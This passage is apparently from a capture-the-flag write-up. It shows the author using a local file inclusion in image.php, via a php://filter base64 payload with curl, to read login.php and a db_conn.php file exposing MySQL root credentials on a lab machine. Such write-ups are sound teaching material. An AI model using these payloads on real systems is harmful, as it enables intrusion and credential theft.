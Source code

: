 ### Bypass login.php
#### Reading source code
Now that we can retrieve files from the system, we can try to obtain `login.php` and have a look at it's content:
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/login.php"
```
The request is successful and we can read the content of login.php.
We can see the following code, which checks the login:
```php
  18   │if (isset($_GET['login'])) {
  19   │     $username = $_POST['user'];
  20   │     $password = $_POST['password'];
  21   │ 
  22   │     $statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
  23   │     $result = $statement->execute(array('username' => $username));
  24   │     $user = $statement->fetch();
  25   │ 
  26   │     if ($user !== false) {
  27   │         createTimeChannel();
  28   │         if (password_verify($password, $user['password'])) {
  29   │             $_SESSION['userid'] = $user['id'];
  30   │             $_SESSION['role'] = $user['role'];
  31   │         header('Location: ./index.php');
  32   │             return;
  33   │         }
  34   │     }
  35   │     $errorMessage = "Invalid username or password entered";
  36   │ 
  ```
As we can see in the line 28, the password is verified with a function `password_verify`, outside this file. If the login is successful, we obtain a phpsession and are redirected to `index.php`. We also see `include "db_conn.php";` in the file, which is used to connect to the database.
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/db_conn.php"
PD9waHAKJHBkbyA9IG5ldyBQRE8oJ215c3FsOmhvc3Q9bG9jYWxob3N0O2RibmFtZT1hcHAnLCAncm9vdCcsICc0X1YzUnlfbDAwMDBuOV9wNDIydzByZCcpOwo=%                                         ❯ echo "PD9waHAKJHBkbyA9IG5ldyBQRE8oJ215c3FsOmhvc3Q9bG9jYWxob3N0O2RibmFtZT1hcHAnLCAncm9vdCcsICc0X1YzUnlfbDAwMDBuOV9wNDIydzByZCcpOwo=" | base64 -d > Results/db_conn.php
❯ cat Results/db_conn.php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/db_conn.php
       │ Size: 92 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ $pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
───────┴───────────────────────────────────────────────────────────────────────────
```
This file contains the credentials of the database of the system, but mysql port is not open, so we need to have a user shell in the localhost of the machine to access the database.
